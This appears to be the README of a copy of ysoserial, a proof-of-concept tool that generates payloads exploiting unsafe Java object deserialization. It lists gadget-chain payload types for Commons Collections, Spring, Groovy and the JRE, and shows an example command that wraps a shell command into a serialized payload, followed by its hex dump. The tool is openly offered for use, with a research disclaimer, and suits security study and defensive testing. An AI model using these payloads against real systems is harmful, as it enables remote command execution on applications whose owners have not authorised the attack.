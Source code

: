 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[programe]' '[option]' '[command to execute]'
	Available payload types:
		CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Jdk7u21 []
		Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar target/ysoserial-0.0.4-all.jar CommonsCollections1 'bin/sh' '-c' 'echo "hatoan security" > /tmp/xxx.x' | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
0000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
0000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
0000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469  luest..Ljava/uti
0000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011  l/Map;L..typet..
...
0000460: 7100 7e00 1675 7100 7e00 1b00 0000 0175  q.~..uq.~......u
0000470: 7200 135b 4c6a 6176 612e 6c61 6e67 2e53  r..[Ljava.lang.S
0000480: 7472 696e 673b add2 56e7 e91d 7b47 0200  tring;..V...{G..
0000490: 0078 7000 0000 0374 0006 6269 6e2f 7368  .xp....t..bin/sh
00004a0: 7400 022d 6374 0023 6563 686f 2022 6861  t..-ct.#echo "ha
00004b0: 746f 616e 2073 6563 7572 6974 7922 203e  toan security" >
00004c0: 202f 746d 702f 7878 782e 7874 0004 6578   /tmp/xxx.xt..ex
...
0000570: 3f40 0000 0000 000c 7708 0000 0010 0000  ?@......w.......
0000580: 0000 7878 7672 0012 6a61 7661 2e6c 616e  ..xxvr..java.lan
0000590: 672e 4f76 6572 7269 6465 0000 0000 0000  g.Override......
00005a0: 0000 0000 0078 7071 007e 003e            .....xpq.~.>
```

## Installation

1. Download the latest jar from the "releases" section.

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

